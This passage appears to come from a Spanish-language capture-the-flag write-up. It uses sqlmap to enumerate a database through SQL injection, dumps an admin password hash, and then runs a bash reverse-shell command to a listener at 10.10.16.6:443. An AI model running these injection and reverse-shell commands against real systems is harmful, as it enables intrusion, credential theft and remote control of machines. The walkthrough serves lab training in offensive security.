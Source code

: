 - Miramos las tablas dentro de la Base de Datos `public`

```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl -D public --tables

Database: public
[1 table]
+-------+
| users |
+-------+
```

- Miramos las columnas que tiene la tabla `users`

```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl -D public T users --columns

Database: public
Table: users
[2 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| password | varchar |
| username | varchar |
+----------+---------+
```

- Dumpeamos los valores de dichas columnas

```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl -D public -T users -C password,username --dump

Database: public
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

- Intentamos crackear el `hash` pero tampoco van por ahí los tiros por lo que vamos a intentar si a través de `SQLMap` nos podemos entablar una `reverse-shell`
Nos ponemos en escucha por el puerto `443` en nuestra maquina

```bash
nc -nlvp 443
```

- Y ejecutamos el siguiente comando con `SQLMap`

```bash
❯ sqlmap -r request.txt -p username --batch --force-ssl --os-cmd 'bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"'
```
